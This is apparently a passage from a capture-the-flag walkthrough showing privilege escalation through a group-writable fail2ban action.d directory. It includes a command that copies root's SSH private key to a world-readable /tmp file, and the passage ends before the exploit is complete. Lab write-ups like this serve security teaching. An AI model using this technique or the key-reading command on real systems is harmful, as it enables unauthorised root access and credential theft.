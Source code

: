 ```
total 76
drwxr-xr-x   6 root root      4096 Sep 26 03:18 .
drwxr-xr-x 126 root root     12288 Sep 26 01:15 ..
drwxrwx---   2 root security  4096 Sep 26 03:18 action.d
-rw-r--r--   1 root root      2334 Sep 26 03:18 fail2ban.conf
drwxr-xr-x   2 root root      4096 Sep 26 03:18 fail2ban.d
drwxr-xr-x   3 root root      4096 Sep 26 03:18 filter.d
-rw-r--r--   1 root root     22908 Sep 26 03:18 jail.conf
drwxr-xr-x   2 root root      4096 Sep 26 03:18 jail.d
-rw-r--r--   1 root root       645 Sep 26 03:18 paths-arch.conf
-rw-r--r--   1 root root      2827 Sep 26 03:18 paths-common.conf
-rw-r--r--   1 root root       573 Sep 26 03:18 paths-debian.conf
-rw-r--r--   1 root root       738 Sep 26 03:18 paths-opensuse.conf
```

Running `groups` shows us that we are in fact part of the `security` group, so we can write to the `action.d` folder.

Now we'll just peruse around the `fail2ban` directory a bit. These are some interesting sections:

The `jail.d` directory only has one jail in it, which is `defaults_debian.conf`. The all that file has in it is this:
```ini
[sshd]
enabled = true
```

Looking through `jail.conf` we can see that there are a bunch of defaults that are set. We can see that the default number of retries before a ban is 5 and the default ban actions are:

```ini
# Default banning action (e.g. iptables, iptables-new,
# iptables-multiport, shorewall, etc) It is used to define
# action_* variables. Can be overridden globally or per
# section within jail.local file
banaction = iptables-multiport
banaction_allports = iptables-allports
```

So, all we have to do is add any command that we want fail2ban to execute to one of those files and then trigger a ban.

### Setting up and running the exploit
This box seems to overwrite all of the fail2ban files every minute or so, so we need to act fast to get all this to work. This means we need to do some setup. We'll start with setting up our own copy of the `iptables-multiport.conf` file

```bash
cd /tmp
cp /etc/fail2ban/action.d/iptables-multiport.conf .
nano /tmp/iptables-multiport.conf
```

We'll repeat the same trick from earlier and try to get the root SSH private key. Add `cat /root/.ssh/id_rsa > /tmp/test && chmod 777 /tmp/test` to the `actionban` section, like this
